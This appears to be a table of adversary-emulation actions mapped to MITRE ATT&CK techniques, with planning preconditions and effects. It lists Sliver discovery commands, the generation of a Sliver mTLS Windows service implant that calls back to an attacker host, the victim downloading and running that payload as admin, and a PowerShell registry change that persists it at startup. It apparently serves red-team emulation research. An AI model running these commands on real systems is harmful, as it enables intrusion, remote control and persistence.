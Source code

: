 | 1a9c0b5e-9a8b-2d3c-5f1e-4a7cb6d42e8f | Host Availability Check | \['T1018'\] | Sliver | \['windows', 'linux'\] | \['Discovery'\] | \['Remote System Discovery'\] | The `ping` command tests network connectivity to the target host. | {'executor': 'Sliver Executor', 'command': 'ping (#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(host_connectivity_verified_info_known ?target - host)'\] |
| 5f1e4a7c-b6d4-2e8f-1a9c-0b5e9a8b2d3c | Network Connection Enumeration | \['T1049'\] | Sliver | \['windows', 'linux'\] | \['Discovery'\] | \['System Network Connections Discovery'\] | The `netstat` command enumerates active network connections. | {'executor': 'Sliver Executor', 'command': 'netstat(#{tcp},#{udp},#{ipv4},#{ipv6},#{listening},#{SessionID})'} | {'tcp': {'description': 'Show TCP connections (true/false)', 'default': True}, 'udp': {'description': 'Show UDP connections (true/false)', 'default': True}, 'ipv4': {'description': 'Show IPv4 connections (true/false)', 'default': True}, 'ipv6': {'description': 'Show IPv6 connections (true/false)', 'default': True}, 'listening': {'description': 'Show listening ports (true/false)', 'default': True}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(network_connections_info_known ?target - host)'\] |
| bc50eb97-4a6d-4a9d-b0b2-e9cf623a9106 | Build the executable file (service) of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a service executable payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format service --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(service_payload ?p - payload)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| 19301991-c518-46ca-a622-378e1be4f1ad | Simulate the victim download and execute malicious payload file as Admin (Root) | \['T1204.002'\] | Manual | \['windows'\] | \['Execution'\] | \['User Execution: Malicious File'\] | None | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the target payload file\n3. Download the payload file\n4. Execute the payload file to #{PATH} as Admin (Root)\n"} | {'HOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)', '(exe_file ?file - file)', '(unallocated ?path - path)'\] | \['(file_exists ?path - path ?file - file ?t - host)', '(file_executed ?file - file ?t - host)', '(file_executed_as_root ?f - file ?t - host)', '~(unallocated ?path - path)'\] |
| 8834b65a-f808-4ece-ad7e-2acdf647aafa | Change Startup Folder - HKCU Modify User Shell Folders Startup Value | \['T1547.001'\] | ART | \['windows'\] | \['Persistence', 'Privilege Escalation'\] | \['Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder'\] | This test will modify the HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders  -V "Startup" value <br>to point to a new startup folder where a payload could be stored to launch at boot.  *successful execution requires system restart<br> | {'executor': 'Powershell Executor', 'command': 'New-Item -ItemType Directory -path "#{new_startup_folder}"\nCopy-Item -path "#{payload}" -destination "#{new_startup_folder}"\nSet-ItemProperty -Path  "HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User Shell Folders" -Name "Startup" -Value "#{new_startup_folder}"\n'} | {'new_startup_folder': {'description': 'new startup folder to replace standard one', 'type': 'string', 'default': '$env:TMP\\atomictest\\'}, 'payload': {'description': 'executable to be placed in new startup location ', 'type': 'string', 'default': 'C:\\Windows\\System32\\calc.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?payload - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_startup ?file - file ?target - host)'\] |